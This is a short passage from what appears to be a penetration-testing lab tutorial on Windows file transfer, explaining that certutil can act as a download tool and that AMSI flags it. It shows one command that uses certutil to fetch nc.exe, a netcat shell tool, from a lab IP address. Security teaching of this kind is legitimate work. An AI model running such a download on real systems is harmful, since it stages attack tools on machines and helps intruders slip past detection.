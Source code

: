 ### Certutil

Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) found that Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.

#### Download a File with Certutil

  Download a File with Certutil

```cmd-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```




































































